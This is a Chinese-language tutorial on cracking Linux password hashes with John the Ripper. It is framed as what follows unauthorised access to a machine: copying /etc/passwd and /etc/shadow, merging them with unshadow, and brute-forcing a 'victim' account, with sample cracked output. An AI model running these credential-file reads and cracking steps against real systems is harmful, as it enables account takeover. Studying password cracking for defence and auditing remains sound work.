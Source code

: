 由于大量使用并行化，该工具非常快。 它还可以在暴力攻击期间使用多种不同的破解策略，并且您可以指定不同的密码字符集，例如仅字母或仅数字。
在下面的幻灯片中，我们将看到如何在破解会话中使用 John the Ripper。


在这种情况下，在未经授权访问 Linux 机器后，我们制作了密码文件的副本：
* `/etc/passwd` 包含有关用户帐户的信息
* `/etc/shadow` 包含实际密码哈希

我们想用John the Ripper来破解一些密码。

#### Unshadow
John 需要用户名和密码在同一个文件中，所以我们需要使用 unshadow 实用程序。 Unshadow 与开膛手约翰一起出现。

```
unshadow passwd shadow > crackme
```

现在可以在crackme文件上开始实际的破解过程。

#### Brute force with John the Ripper
通常，一个密码文件包含多个用户的密码。如果您对破解其中一些感兴趣，可以使用 `-users` 选项。
要执行纯暴力攻击，您必须使用以下语法：

```
john -incremental -users:<users list> <file to crack>
```

要暴力破解受害者用户的密码，您必须输入（2022.2版kali没有测试成功）：

```
john -incremental -users:victim crackme
```

在完成一个简单的破解会话后，您可以在这里看到 Joth the Ripper 的输出：

```
john -incremental -users:victim crackme
Created directory: /root/.john
Loaded 1 password hash (sha512crypt [64/64])
test    (victim)
guesses: 1 time: 0:00:00:28 DONE (Sun Feb 15 15:36:43 2015) c/s: 856 trying: tomr - tina
Use the "--show" option to display all of the cracked passwords reliably
```

要显示 John 恢复的密码，您可以使用 `--show` 选项：

```
john --show crackme
victim:test:1001:1003:,,,:/home/victim:/bin/bash
```

大多数破解会话需要数小时或数天才能完成。 在长时间的破解会话中，您可以按任意键显示 John 的状态：

```
john -incremental -users:victim crackme
Loaded 1 password hash (sha512crypt [64/64])
guesses: 0 time: 0:00:00:02 0.00% c/s: 718 trying: 0101975 - 010091
guesses: 0 time: 0:00:00:08 0.00% c/s: 822 trying: andy21 - arc130
guesses: 0 time: 0:00:00:17 0.00% c/s: 848 trying: chattest - cheres96
```
